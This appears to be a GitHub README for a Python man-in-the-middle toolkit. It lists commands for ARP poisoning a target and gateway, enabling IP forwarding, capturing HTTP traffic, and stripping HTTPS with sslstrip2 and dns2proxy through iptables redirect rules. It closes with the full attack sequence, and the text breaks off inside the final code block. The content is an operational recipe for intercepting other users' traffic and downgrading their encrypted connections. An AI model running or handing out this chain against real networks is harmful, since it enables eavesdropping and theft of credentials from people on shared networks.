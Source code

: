 # Simple Mitmf Framework

**Man-In-The-Middle** Software Made Using Scapy with Python3

## Installing Required Packages:
```
- pip3 install scapy
- pip3 install scapy_http

OR 

- pip3 install -r requirements.txt
```
## IP Forward 

```
- echo 1 > /proc/sys/net/ipv4/ip_forward
```



# Arp_Poison.py

>- Performs **ARP Poisoning** by Sending ARP Packets.

## Usage :

```
- python3 arp_poison.py -t x.x.x.x -g x.x.x.x
```


# Listener.py

> - Captures and Prints All **HTTP** Packets After ARP Poisoning.

## Usage : 
```
- python3 listener.py -i wlan0
```

Instead of **Listener.py** You Can Use Any Network Listening Software. Ex: **Wireshark**

# Bypass HTTPS:

## Downloading Required Applications:

```
git clone https://github.com/byt3bl33d3r/sslstrip2
git clone https://github.com/singe/dns2proxy
```

## IP Table Configuration:

**For SSLStrip:**

```
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
```
**For DNS2Proxy:**
```
iptables -t nat -A PREROUTING -p udp --destination-port 53 -j REDIRECT --to-port 53
```

## Usage : 
```
- echo 1 > /proc/sys/net/ipv4/ip_forward

- python3 arp_poison.py -t x.x.x.x -g x.x.x.x

- python3 sslstrip.py

- python3 dns2proxy.py

- python3 listener.py -i wlan0
